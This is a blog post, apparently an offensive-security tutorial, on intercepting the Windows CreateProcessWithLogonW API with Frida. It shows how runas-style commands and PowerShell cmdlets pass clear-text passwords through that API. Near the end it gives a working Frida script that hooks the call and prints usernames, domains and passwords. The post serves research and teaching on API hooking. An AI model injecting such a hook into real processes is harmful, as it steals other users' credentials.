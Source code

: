 ```yaml
---
layout: single
title: Hooking CreateProcessWithLogonW with Frida
date: 2020-2-22
classes: wide
header:
  teaser: /assets/images/APIHooking/Start.PNG
---
```


Introduction
------------
Following [b33f](https://twitter.com/FuzzySec) most recent [Patreon](https://www.patreon.com/FuzzySec) session titled `RDP hooking from POC to PWN` where he talks about API hooking in general and then discuss in details RDP hooking ([RdpThief](https://www.mdsec.co.uk/2019/11/rdpthief-extracting-clear-text-credentials-from-remote-desktop-clients/)) research published in 2019 by [@0x09AL](https://twitter.com/0x09al), I've decided to learn more about the subject as it seemed intriguing from an offensive research standpoint. In essence, API hooking is the process by which we can intercept and potentially modify the behavior and flow of API calls. In this blog we will be looking at capturing data pertaining to API calls for the most part.

Tooling
-------
We will be using the following tools:

* [API Monitor](http://www.rohitab.com/apimonitor) tool which is a free software that lets you monitor and control API calls made by applications and services according to the website.
* [Fermion](https://github.com/FuzzySecurity/Fermion) wrapper for [Frida](https://github.com/frida) or [frida-node](https://github.com/frida/frida-node) rather exposing the ability to inject [Frida](https://github.com/frida) scripts into processes using a single UI. 

Target
------
While reading through chapter 3 of Windows Internals book, I noticed a mention of the [CreateProcessWithLogonW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw) API which could be used by programs and/or utilities that offer execution in the context of a different user such as `runas` command-line utility. Moreover, examining this function API documentation on MSDN I found that it takes clear-text password for a given user account as parameter amongest others which makes it even more interesting. At this point I thought this is something worth exploring and started targeting commands that make use of said API. The following is list of few commands I tested:

  
Start
-----
As the name suggest, the [start](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/start) command enables a user to open a separate window from the Windows command line. Let's execute the below command to spawn command prompt as a different user while running API Monitor in the background.

![](/assets/images/APIHooking/Start.PNG)

We notice call to [CreateProcessWithLogonW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw) API which holds the credential values we just entered in the first and second parameters.

![](/assets/images/APIHooking/APIMon1.PNG)

Start-Process
--------------
The [Start-Process](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/start-process?view=powershell-7) cmdlet starts one or more processes on the local computer such as starting process using alternate credentials amongest other things.

![](/assets/images/APIHooking/Start-Process.JPG)

Again we search for call to [CreateProcessWithLogonW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw) API and examine the parameters as shown below.

![](/assets/images/APIHooking/APIMon2.JPG)

Start-Job
---------
The last cmdlet we're going to test is [Start-Job](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/start-job?view=powershell-7) which is used to run jobs in the background. In this case, we're going to invoke basic powershell script to mix things up.

```powershell
$username = "lowpriv"
$password = "Passw0rd!"
$securePassword = ConvertTo-SecureString  -String $password -AsPlainText -Force
$Creds = New-Object System.Management.Automation.PSCredential -ArgumentList ($username, $securePassword)
Start-Job -ScriptBlock {Get-Process Explorer} -Credential $Creds
```

And we get the same result.

![](/assets/images/APIHooking/APIMon3.JPG)

Frida Script
------------
I've put together basic [Frida](https://github.com/frida) script that hooks the [CreateProcessWithLogonW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw) API and then extract clear-text credentials.

```javascript
// This script extract clear-text passwords by hooking CreateProcessWithLogonW function API.
//------------------------------------------------------------------------------------------

// https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw
var pCreateProcessWithLogonW = Module.findExportByName("Advapi32.dll", 'CreateProcessWithLogonW')

Interceptor.attach(pCreateProcessWithLogonW, {
    onEnter: function (args) {
        send("[+] CreateProcessWithLogonW API hooked!");
        // Save the following arguments for OnLeave
        this.lpUsername = args[0];
        this.lpDomain = args[1];
        this.lpPassword = args[2];
        this.lpApplicationName = args[4];
        this.lpCommandLine =args[5];
    },
    onLeave: function (args) {
        send("[+] Retrieving argument values..");
        send("=============================");
        send("Username    : " + this.lpUsername.readUtf16String());
        send("Domain      : " + this.lpDomain.readUtf16String());
        send("Password    : " + this.lpPassword.readUtf16String());
        send("Application : " + this.lpApplicationName.readUtf16String());
        send("Commandline : " + this.lpCommandLine.readUtf16String());
        send("=============================");
    }
});
```

Let's test it.

![](/assets/images/APIHooking/Demo.gif)

Conclusion
----------
I believe this post serves as a gentle introduction to API hooking and I'm sure I missed a few other commands that make use of [CreateProcessWithLogonW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw) API behind the scenes ;D. I don't know wether this is useful from post-exploitation standpoint and would rather leave it to the reader to decide. Lastly, I would like to thank [@h0mbre_](https://twitter.com/h0mbre_) for reviewing this post and hope it was a good read.
